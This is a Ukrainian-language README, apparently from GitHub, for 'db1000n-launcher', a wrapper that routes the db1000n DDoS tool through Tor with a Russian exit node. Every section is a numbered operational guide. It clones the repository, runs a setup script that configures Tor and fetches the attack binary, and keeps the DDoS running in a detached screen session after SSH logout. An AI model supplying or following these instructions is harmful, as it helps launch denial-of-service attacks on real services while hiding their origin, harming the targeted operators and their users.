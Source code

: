 # db1000n-launcher
Запускає db1000n через Tor з російським вихідним вузлом

## Інструкція
За допомогою цієї інструкції ви можете запустити DDOS на віртуальній машині через ssh та відключитись від неї, а тим часом DDOS продовжуватиметься.
1. `sudo apt update && sudo apt install git` (встановлюємо git щоб завантажити цей репозиторій)
2. `git clone https://github.com/Leonidius20/db1000n-launcher/` (завантажуємо цей репозиторій)
3. `mv db1000n-launcher/setup-ddos.sh setup-ddos.sh && rm -rf db1000n-launcher` (переміщуємо скрипт з цього репозиторію в робочу теку та видаляємо зайве)
4. `sudo sh ./setup-ddos.sh` (виконуємо скрипт, що встановлює та налаштовує Tor таким чином, щоб вихідний вузол був російським, а також завантажує скрипт для DDOS)
5. `screen` (створюємо нове вікно в терміналі)
6. `torsocks ./db1000n` (у цьому новому вікні запускаємо DDOS через Tor)
7. Натискаємо `ctrl+A` та `ctrl+D` (від'єднуємось від цього вікна)

Після виконання цих кроків можна закрити SSH сесію з вашою віртуальною машиною, а DDOS продовжиться. Для того щоб його зупинити, знов під'єднайтесь до своєї віртуальної машини по SSH та виконайте команду `screen -r`. Ви повернетесь до створеного вами вікна терміналу, в якому виконується DDOS-скрипт. Зупиніть його натиснувши `ctrl+C`. 
